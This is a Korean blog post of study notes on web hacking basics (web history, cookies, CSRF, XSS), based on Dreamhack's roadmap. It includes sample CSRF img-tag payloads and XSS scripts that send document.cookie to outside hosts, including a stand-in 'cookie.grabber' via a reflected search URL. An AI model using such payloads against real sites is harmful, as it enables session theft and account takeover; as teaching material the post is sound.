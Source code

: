 ```yaml
---
layout: post
title: 3주차 - 웹 해킹 기초(1)
summary: 테스트
permalink: /:categories/:title
date: '2024-10-15 20:11:42'
category: dlc
---
```


* 드림핵의 [웹 해킹 로드맵](https://dreamhack.io/lecture/roadmaps/1)을 정리한 글입니다.

---

# 웹

* 인터넷을 기반으로 구현된 서비스 중 HTTP를 이용하여 정보를 공유하는 서비스를 웹이라 합니다.

1990년, 유럽 입자 물리 연구소(CERN)의 과학자이자 WWW(World Wide Web)의 아버지인 팀 버너스리에 의해 [우주 최초의 웹 페이지](https://info.cern.ch/)가 제작되었습니다.
페이지는 버너스리 소유의 PC(NeXT사의)로 호스팅되었습니다. 서비스 중단을 두려워했던 버너스리는 PC에 다음과 같은 라벨을 빨간 잉크로 수기해 붙였다고 합니다.[^1]
> <span style="color:red"> This machine is a server. DO NOT POWER IT DOWN!! </span>

현재는 스위스 제네바에 위치한 CERN 서버에서 호스팅되고 있습니다. (188.184.67.127)

우리가 흔히 Web 1.0이라고 부르는 시대의 페이지들은 대체로 위의 것 만큼은 아니지만, 엄청나게 단출하여 필요한 정보만이 한눈에 들어오도록 제작되었습니다. 사실 인터넷에 접속 가능한 어디서든 읽을 수 있는 전자신문이라고 부르는 편이 나았을지도 모르겠습니다. 그 흔한 RSS조차도 Web 2.0 시대에 들어서 만들어졌다고 하니까요.

Web 2.0 시대에 들어서는, 우리가 익히 알고 있는 형태의 웹 서비스들이 많이 등장하기 시작했습니다. 블로그(댓글을 작성할 수 있는), 웹 메일, 검색 엔진들이 속속들이 등장하기 시작했습니다. 21세기 이후에 등장해 우리가 지금까지도 사용하고 있는 대부분의 웹 서비스들이 여기에 해당합니다. Google이 1998년에 처음으로 크롤링을 시작했다고 하니 시기상 얼추 들어맞는 것 같습니다.[^2]

현대 웹의 가장 큰 특징은 웹이 단순히 정보를 전달하는 것(읽기)만이 아닌, 사용자가 웹에 정보를 게시할 수 있다는 것(쓰기)입니다. 취약점은 여기서 발생합니다.

웹을 구성하는 대표적인 삼요소인 HTML, CSS, JS는 모두 대체로 비교적 배우기 쉽고 개발 속도가 빠르며 특히 이식성이 아주 뛰어나다는 큰 장점이 있으나, 성능이 나쁘고 그 자체로 구조적인 취약점을 가지고 있다는 단점이 있습니다.

---

# 쿠키

현대의 웹 서비스들은 맞춤화된 사용자 경험을 제공하기 위해 노력하고 있습니다. 구글의 에드센스가 대표적인 예입니다. 하지만 이상합니다. 구글은 어떻게 구글 계정에 로그인 조차 하지 않은 저를 특정해서 맞춤형 광고를 제공할 수 있었을까요?

![](/assets/img/CSRF_Cookie.png)
*Google.com에 접속하면 전송되는 요청 헤더 목록의 일부*

구글이 **쿠키**를 이용하여 자사 서비스를 웹 브라우저로 이용하는 모든 이용자를 추적하기 때문입니다.
비단 구글 에드센스만이 아닌, 대부분의 웹 서비스들에서 로그인된 사용자의 세션을 검증하고, 자동 로그인 기능을 구현하기 위해 쿠키를 사용합니다. 헤더로부터 회원을 특정할 수 있는 정보가 그다지 많지 않을뿐더러, IP나 UA는 이용자가 다른 브라우저를 사용하거나, 통신사 모뎀을 껐다 키거나, 셀룰러 데이터를 사용하는 등 여러가지 이유로 변경될 수 있습니다. 심지어는 다른 사용자와 동일할 수도 있으니 신원을 확인하는 용도로 유용하기엔 부적절합니다.

게다가 쿠키를 통해 신원확인 이외에도 광고 팝업의 "7일 동안 보지 않기", "다시는 보지 않기" 옵션을 기록할 수도 있습니다. 비휘발성 저장소로써의 역할이란 역할은 모조리 대신할 수 있습니다. 쿠키에는 명확히 정해진 형식이 없습니다. 간단히 Key=Value 형태의 NoSQL 데이터베이스라고 이해해도 좋겠습니다. 인증 정보는 주로 SESSION이라는 이름의 Key에 보관합니다.

---

# 교차 사이트 요청 위조(Cross Site Request Forgery, CSRF)

하지만, 이렇게나 편리한 만능 저장소인 쿠키도 사소한 문제를 가지고 있습니다. 모든 인증 절차를 쿠키의 SESSION 값을 확인하는 것으로 퉁친다는 것인데요.
이러한 방식은 구현하기에도 편리하고 부하도 적어 이상적으로 완벽해보입니다. 하지만 실증세계에선 그다지 안전하지 못합니다. 왜 그럴까요?

보통은 피싱 및 그래빙의 위험 때문이지만, CSRF와 XSS 공격의 위험성 역시 존재하기 때문입니다.
이미지를 불러오는 img 태그를 사용하거나 웹 페이지에 입력된 양식을 전송하는 form 태그를 사용하는 방법이 있습니다. 이 두 개의 태그를 사용해 HTTP 요청을 보내면 Cookie 헤더에 이용자의 인증 정보가 포함되기 때문에 악용될 소지가 있습니다.

만약 제가 아래와 같이 URL의 파라미터를 악의적인 동작을 실행하도록 작성한 태그를 게시글에 포함시켜 게시한다면...

```html
<img src='http://jedo1400.github.io/logout' width=0px height=0px>
```

물론 제 블로그에는 로그인/로그아웃 기능이 구현되어있지 않지만, 존재했다면, 아마도 게시글을 열람하는 모든 이용자를 로그아웃 시켜버릴 수 있었을 것입니다.
우스워보일 수 있으나, 이 블로그가 아닌 은행 사이트에서 이런 공격이 더 심각한 형태로 이뤄진다고 상상해본다면 꽤 무서운 일입니다.

실제 오픈마켓 '옥션'에서도 이와 같은 일이 있었습니다. 중국인 해커가 사내 메일로 이러한 형태의 악성 CSRF 페이로드가 담긴 이메일을 관리자들에게 대량 전송한 것입니다.

```html
<img src="http://auction.com/changeUserAccount?id=admin&password=admin" width="0" height="0"/>
```

관리자가 메일을 읽어들이는 순간, 보이지 않는 너비 0, 높이 0의 이미지 태그는 관리자 계정의 아이디와 비밀번호를 변경하는 요청을 전송했고, 이용자 1860만명의 개인정보가 탈취당한 사상 초유의 개인 정보 유출 사건이었습니다.[^3]
잘 알려지고 쉬운 기법이라고 해서 그것이 '약한 공격'을 의미하는 것은 아닙니다. 단지 고전적일 뿐이며 언제 어느 서비스에서 발생하더라도 이상하지 않습니다.

무시무시한 CSRF 공격을 방지하기 위해서는 초나 분 단위로 생성되는 CSRF 방지 토큰 헤더를 만들고, 검증하여 실제로 현재 요청이 올바른지를 검사하면 됩니다. CSRF 기법만으로는 요청 헤더를 위변조할 방법이 없기 때문입니다.

---

# 교차 사이트 스크립팅(Cross Site Scripting, XSS)

XSS는 CSRF보다도 훨씬 더 치밀하고 위협적인 악성 페이로드를 구성할 수 있습니다.
말 그대로 자바스크립트를 통해 구현할 수 있는 모든 것을 할 수 있습니다.
```js
<script>
new Image().src = "http://jedo1400.github.io/" + document.cookie;
</script>
```

악성 스크립트의 링크가 삽입된 콘텐츠를 업로드시킨 뒤, 이용자가 해당 악성 페이지를 불러오게 되면 브라우저가 해당 코드를 실행시켜 쿠키를 전송시키는 방식으로 응용할 수 있습니다. 이러한 방식의 XSS 공격을 *Stored XSS*로 분류합니다. 하지만 이러한 류의 공격은 대부분의 브라우저에 존재하는 단의 동일-출처 정책(Same-Origin Policy, SOP)에 의해 차단됩니다.

다른 방식으로는, 서버가 악성 스크립트를 포함시켜 응답하도록 만들어 스크립트의 출처를 속이는 것입니다. 원리는 간단합니다.
이 블로그에 게시글 검색 기능이 있다고 가정해보겠습니다. 사용자는 검색어를 search 파라미터에 적어 GET요청하기만 하면 해당 검색어가 제목, 내용에 포함된 게시글 목록이 출력되는 기능입니다.
```
https://jedo1400.github.io/?search=test
```

편의를 위해, 검색 결과 페이지에선 사용자가 입력한 검색어를 입력한 그대로 최상단에 보여준다고 가정해보겠습니다.
그럼 공격자는 아래 URL로 다른 이용자가 접속하도록 유도하기만 하면 됩니다.

```
https://jedo1400.github.io/?search=<script>new Image().src = "http://cookie.grabber/" + document.cookie;</script>
```

또는 Click Jacking, Open Redirect 등 다른 취약점들과 연계하여 제로 클릭 공격으로써 응용할 수 있습니다.

---

<!-- 각주 -->
[^1]: [https://home.cern/science/computing/birth-web/short-history-web](https://home.cern/science/computing/birth-web/short-history-web)
[^2]: [https://about.google/our-story/](https://about.google/our-story/)
[^3]: [https://biz.chosun.com/site/data/html_dir/2008/04/17/2008041700945.html](https://biz.chosun.com/site/data/html_dir/2008/04/17/2008041700945.html)